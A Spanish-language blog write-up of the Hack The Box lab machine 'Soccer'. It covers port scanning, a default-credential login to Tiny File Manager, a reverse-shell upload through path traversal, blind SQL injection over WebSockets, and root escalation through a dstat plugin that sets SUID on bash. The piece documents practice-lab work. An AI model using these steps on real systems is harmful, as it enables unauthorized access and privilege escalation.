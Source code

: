 ```yaml
---
layout: single
title: Soccer - Hack The Box - WriteUp
excerpt: "Resolución de la máquina de dificultad fácil 'Soccer' de Hack the Box"
date: 2023-03-06
classes: wide
header:
  teaser: /assets/images/htb-writeup-soccer/soccer-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - websocket
  - blind sqli
  - doas
  - dstat
  - path transversal
---
```


![soccer-logo](/assets/images/htb-soccer-writeup/soccer-logo.png)

## Portscan

```bash
Nmap scan report for soccer.htb (10.10.11.194)                                                                                                                                                                    
Host is up (0.063s latency).                                                                                                                                                                                      
Not shown: 65532 closed tcp ports (reset)                                                                                                                                                                         
PORT     STATE SERVICE         VERSION                                                                                                                                                                            
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                                                                                                                       
| ssh-hostkey:                                                                                                                                                                                                    
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)                                                                                                                                                    
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)                                                                                                                                                   
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)                                                                                                                                                 
80/tcp   open  http            nginx 1.18.0 (Ubuntu)                                                                                                                                                              
|_http-title: Soccer - Index                                                                                                                                                                                      
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                                                                       
9091/tcp open  xmltec-xmlmail?                                                                                                                                                                                    
|......
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

La página principal de la web no tiene información relevante y no hay ningún enlace que nos redirija a otra página. Vamos a usar un buscador de directorios como puede ser **dirsearch** para ver si encontramos algo:

![dirsearch-command](/assets/images/htb-soccer-writeup/dirsearch-command.png)

El programa ha encontrado un directorio llamado 'tiny' que contiene una página de login.

## Tiny Exploitation

La apliación web Tiny File Manager es opensource y el código fuente se puede encontrar en GitHub. Gracias a ellos sabemos que por defecto la aplicación viene con dos usuarios, **admin** y **user**. Usando las credenciales encontradas en el código fuente conseguimos acceder al panel del control de la aplicación.

## User shell

Ya tenemos acceso a la aplicación de gestión de ficheros cuya versión es 2.4.3. Si buscamos exploits para TinyFileManager encontramos que esta versión es vulnerable a un 'path transversal' a través de su función de subir ficheros. Dado que tenemos la cuenta de administrador, podemos usar esta [webshell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) para subir el fichero, abrirlo y obtener una shell reversa:

![user-shell](/assets/images/htb-soccer-writeup/user-shell.png)

Tras usar linpeas para encontrar posibles formas de escalar privilegios, encontramos que existe un subodminio dentro de **soccer.htb** llamado **oc-player.soccer.htb**. Tras añadir este nuevo dominio a nuestro fichero /etc/hosts observamos que ahora la página web cuenta con nuevas opciones, como match, login y signup.

Procedemos a crear un usuario y hacer login, y nos encontramos con esta nueva página:

![ticket](/assets/images/htb-soccer-writeup/ticket.png)

Esta página comprueba un número de ticket y nos indica si es válido o no. Revisando el código fuente observamos que a través de Websockets realiza consultas a una base de datos. Siguiendo los pasos de este [artículo](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) para realizar **Blind SQL** a WebSockets a través de nodejs, podemos obtener el nombre de la base de datos, sus tablas y la información alojada en ellas. Gracias a esto encontramos el usuario **player** con el que podemos conectar a través de SSH a la máquina.

![db-dump](/assets/images/htb-soccer-writeup/db-dump.png)

Navegamos al escritorio y encontramos la primera flag.

## Privilege escalation

Buscamos archivos que tengan permisos de SUID con el siguiente comando:

```nash
find / -perm /4000 2>/dev/null
```

Observamos que nos sale 'doas' y éste nos permite la ejecución de 'dstat' con permisos de root

![doas](/assets/images/htb-soccer-writeup/doas.png)

Dstat es vulnerable y nos permite la elevación de privilegios si pudiesemos ejecutarlo con permisos de root, pero nosotros tenemos que ejecutar dstat a través de doas para tener dicho privilegio.

Lo primero es encontrar los directorios sobre los que trabaja dstat

```bash
find / -type d -name dstat 2>/dev/null

/usr/share/doc/dstat
/usr/share/dstat
/usr/local/share/dstat

```

Usaremos el fichero '/usr/local/share/dstat'

Lo segundo que hay que hacer es crear un script en la ruta anterior que se ejecutará con permisos de root, por ejemplo añadir el bit de SUID a una shell:

```python
import os

os.system('chmod +s /usr/bin/bash')
```

Ahora ejecutamos el script:

![dstat-priv-esc](/assets/images/htb-soccer-writeup/dstat-priv-esc.png)

Si ahora ejecutamos una bash, la shel obtenida tendrá privilegios de root y así conseguimos la segunda flag.

